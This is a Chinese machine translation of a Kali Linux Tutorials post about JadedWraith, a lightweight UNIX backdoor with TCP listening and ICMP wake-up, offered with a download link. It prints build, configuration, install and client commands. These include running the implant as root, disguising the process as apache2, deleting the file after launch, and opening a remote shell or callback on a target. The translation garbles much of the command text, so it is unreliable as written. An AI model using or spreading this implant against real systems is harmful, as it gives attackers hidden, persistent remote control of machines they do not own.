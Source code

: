 # JadedWraith:轻量级 UNIX 后门

> 原文：<https://kalilinuxtutorials.com/jadedwraith/>

[![](img/4817cef65809dc88af2d4a3f7f1d2b19.png)](https://1.bp.blogspot.com/-tk7TDPJebwI/YVHYVQZsnRI/AAAAAAAAK-Y/p-WZ73KHWa894jnDmjlmDLTcck6SHkgawCLcBGAsYHQ/s687/backdoor%2B%25281%2529.png)

JadedWraith 是一个轻量级的 UNIX 后门程序，用于道德黑客攻击。对红队交战和 CTF 有用。这是我几年前写的，是我和一个朋友玩的一个游戏的一部分，这个游戏试图在不被发现或对我们的工具进行反向工程/签名的情况下，在彼此的实验室中后门尽可能多的虚拟机。

**特色**

JadedWraith 是一个强大的后门程序，能够监听 TCP 端口或嗅探“神奇”ICMP 数据包，指示后门程序进行回调或监听。这在一定程度上受到了 PRISM 等工具的启发，然而，与 PRISM JadedWraith 不同的是，它采用了劣质的加密技术来混淆命令和控制。JadedWraith 可用于执行远程命令或上传后续有效载荷。

JadedWraith 可以编译为独立的可执行文件，也可以编译为用于进程注入的共享对象。

**组件**

实际植入的源代码可以在`**src**`目录中找到。`**client**`包含一个简单的基于 python 的客户端，用于与 JadedWraith 交互。`**conf_jawr**`脚本用于配置新的 JadedWraith 可执行文件。

**依赖关系**

植入需要一个现代的 C 库和 libpthread。根据目标操作系统的不同，可能需要 libpcap(在这种情况下，您必须运行带有`**--use-libpcap**`的`**./configure**`脚本来启用 libpcap 支持)。

Python 配置脚本和客户端需要以下包才能工作:termcolor、pycryptodomex

**如何编译**

只需使用`**Makefile**`进行编译。注意:在使用之前，必须配置在`**bin**`中找到的结果二进制文件。

**$。/configure
$ make
$ ls-lart bin
-rwxrwxr-x . 1 root root 19712 年 7 月 31 日 13:08 JadedWraith-2 . 0 . 0-Linux-x86 _ 64 . elf**

**如何** C **配置**

使用`**conf_jawr**`脚本来配置 JadedWraith 可执行文件。它将在`**bin**`目录中搜索 JadedWraith 可执行文件以进行配置。配置的二进制文件将被写入`**configured**`目录。

**$。/conf_jawr
JadedWraith 配置
请选择一个 JadedWraith 二进制文件来使用:
1。JadedWraith-2 . 0 . 0-Linux-x86 _ 64 . elf
二进制:1
共享密钥[95454 c93 c8 D5 d30 a 0782 da 72 ade 10 e 29]:
启用被动模式(ICMP 唤醒)？[y/n] y
唤醒密码[4 zw 2 ttaikbcyeolwd 7 rrtasrluf 90 vsznlfzn 2 a 4 ab 018 VJ]:
argv[0](留空不欺骗命令)[] :
JadedWraith 可执行文件:/tmp/JadedWraith/configured/builds/JadedWraith-2 . 0 . 0-Linux-x86 _ 64.1627752415 . bin
试试我！
须藤。/wraith-client . py-k 95454 c 93 c8 d 5d 30 a 0782 da 72 ade 10 e 29-P 4 zw 2 ttaikbcyeolwd 7 rrtasrluf 90 vsznlfzn 2 a 4 ab 018 VJ shell**

**如何安装**

可以简单地在目标系统上运行配置好的植入程序。如果配置为使用被动 ICMP 功能，则必须以 root 用户身份运行。环境变量 _CMD 可以用来欺骗进程的`**argv[]**`

**# CD/tmp
# NC-lvp 4444>Apache 2
# chmod+x Apache 2
# _ CMD = "/usr/sbin/Apache 2"。/apache2
#rm apache2**

**如何互动**

`**client**`里面的`**wraith-client.py**`脚本可以用来和 JadedWraith 交互。只需用`**conf_jawr**`脚本产生的参数调用它，用目标的 IP 替换`**<IP_ADDRESS>**`。如果利用 ICMP 功能，则必须以 root 用户身份运行脚本来发送 ICMP 数据包。

**~/JadedWraithFork/client>sudo。/wraith-client . py 192 . 168 . 100 . 224-k 1 deeb 4 a 64440 b 8d 13 c 84 a 8 EB 4 e 7c 4453-P y 00 nrnwpwxdvpoxss 6k 0 r 7 lelfecbvkx 91 OJ 0 S5 brnlyx 1 wr shell
[+]发送 ICMP 唤醒命令到 192.168.100.224
[ *]后门将监听端口 58290 [.
[ *]进入交互外壳。cd /tmp w 14:22:49 up 3:02，1 用户，负载平均:0.18，0.19，0.23 用户 TTY 登录@ IDLE JCPU PCPU 什么 ps -ef UID PID PPID C STIME TTY 时间 CMD root 1 0 0 11:20？00:00:01/usr/lib/systemd/systemd–switched-root–system–deserialize 31。从 sudo 出口出去。/wraith-client . py 127 . 0 . 0 . 1–callback 192 . 168 . 100 . 224-k 1 dee B4 a 64440 b 8d 13 c 84 a 8 e B4 e 7c 4453-P y 00 nrnwpwxdvposss 6k 0 r 7 lelfecbvkx 91 OJ 0s 5 brnlyx 1 wr shell[+]发送 ICMP 唤醒命令到 127.0.0.1 [* ]后门将连接到端口 37943【中【*】进入交互外壳**

[**Download**](https://github.com/phath0m/JadedWraith)